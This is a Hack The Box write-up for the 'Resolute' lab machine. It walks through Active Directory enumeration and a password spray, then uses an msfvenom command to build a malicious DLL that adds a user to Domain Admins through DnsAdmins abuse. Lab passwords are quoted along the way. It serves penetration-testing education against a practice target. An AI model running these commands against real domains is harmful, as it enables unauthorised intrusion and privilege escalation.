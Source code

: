 ```yaml
---
layout: single
title: 'Resolute Write-Up: Hack The Box'
excerpt: "Resolute was a straight-forward *medium*-rated machine on Hack The Box created by egre55. Initial recon revealed an open LDAP service which leaked all local users and a default password. This allowed a password spray against the users and a successful login as user `melanie`. As `melanie`, further machine enumeration revealed PowerShell transcripts that leaked a command containing user `ryan`'s password. User `ryan` is part of the `Contractors` group, which is also contained in the `DnsAdmin` group. Being a member of the `DnsAdmin` is abused to add first compromised user `melanie` as a `Domain Admin`, owning the machine."
classes: wide
categories: [hackthebox]
date: 2020-05-30
tags: [hackthebox, ldap, hacking, penetration testing, write-ups]
header:
  teaser: \assets\images\htb\resolute\resolute-banner.png
  teaser_home_page: true
toc: false
toc_label: "Table of Contents"
toc_icon: "database"  # corresponding Font Awesome icon name (without fa prefix)
# toc_sticky: true
---
```

![](\assets\images\htb\resolute\resolute-banner.png)
## TL;DR
Resolute was a straight-forward *medium*-rated machine on Hack The Box created by egre55. Initial recon revealed an open LDAP service which leaked all local users and a default password. This allowed a password spray against the users and a successful login as user `melanie`. As `melanie`, further machine enumeration revealed PowerShell transcripts that leaked a command containing user `ryan`'s password. User `ryan` is part of the `Contractors` group, which is also contained in the `DnsAdmin` group. Being a member of the `DnsAdmin` is abused to add first compromised user `melanie` as a `Domain Admin`, owning the machine.

## Nmap Port Scan
`nmap -sCV -Pn -n -p- -T4 -oN nmap/full-resolute 10.10.10.169`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-26 20:36 EDT
Nmap scan report for 10.10.10.169
Host is up (0.029s latency).                      
Not shown: 65511 closed ports                     
PORT      STATE SERVICE      VERSION              
53/tcp    open  domain?                           
| fingerprint-strings:                            
|   DNSVersionBindReqTCP:                                                                                            
|     version                                     
|_    bind                                        
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-04-27 00:44:46Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                                                                                                                                                                                
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?  
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0        
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped                                                                                           
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0                                                                          
|_http-title: Not Found    
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49688/tcp open  msrpc        Microsoft Windows RPC
49712/tcp open  msrpc        Microsoft Windows RPC
65424/tcp open  unknown

Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## LDAP Enumeration

A default password is shown via the description for user `marko`.
```
Marko Novak, Employees, MegaBank Users, megabank.local                                                             
dn: CN=Marko Novak,OU=Employees,OU=MegaBank Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user 
cn: Marko Novak                                           
sn: Novak 
description: Account created. Password set to Welcome123!
[TRUNCATED]
sAMAccountName: marko
sAMAccountType: 805306368
userPrincipalName: marko@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local                                            
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927131714.0Z
dSCorePropagationData: 16010101000001.0Z
```

I was unable to get any usage from the `Welcome123!` password and `Marko`, so I created a username list and used Metasploit's WinRM Login module to test the password against the remainder of the accounts.

`ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local" '(objectClass=Person)' | grep userPrincipalName | cut -d " " -f 2 | cut -d "@" -f 1 > users.txt`

We got a hit on user `melanie`.
![](\assets\images\htb\resolute\resolute-winrm-scan.png)

## Machine Compromise

I used evil-WinRM to get a shell and grabbed the user flag.
![](\assets\images\htb\resolute\resolute-melanie-login.png)

Looking at the root directory, we see an interesting folder that is hidden. This leads to an file that leaks the user Ryan's password.

*File Location:*
`C:\PStranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`

*Line Containing Password Leak:*
```
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

## Pivoting to DNS Admin

Using Evil-WinRM I logged in with Ryan and noticed he was part of a `Contractors` group. I love Bloodhound, so I used this opportunity to run it to enumerate everything that's going on in the AD structure.

Ryan was a member of the `Contractors` group, but what is interesting is that `Contractors` are a member of `DnsAdmins` group. Privileges!
![](\assets\images\htb\resolute\resolute-bloodhound.png)

After some research, I followed these blog posts that outline a privilege escalation via a feature abuse in AD where a user who is member of the DNSAdmins group or have write privileges to a DNS server object can load an arbitrary DLL with SYSTEM privileges on the DNS server:
[Abusing DNSAdmins privilege for escalation in Active Directory](https://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html){:target="_blank"}  
[From DnsAdmins to SYSTEM to Domain Compromise](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise){:target="_blank"} 

In accordance with the blog post, I created a malicous DLL that will add Melanie to the Domain Admins group:  
`msfvenom -a x64 -p windows/x64/exec cmd='net group "domain admins" melanie /add /domain' -f dll -o mel.dll`

![](\assets\images\htb\resolute\resolute-dnscmd-entry.png)

## Domain Admin Escalation

Now we  can log in with Melanie and grab the root flag:
![](\assets\images\htb\resolute\resolute-root.png)

Thanks for reading!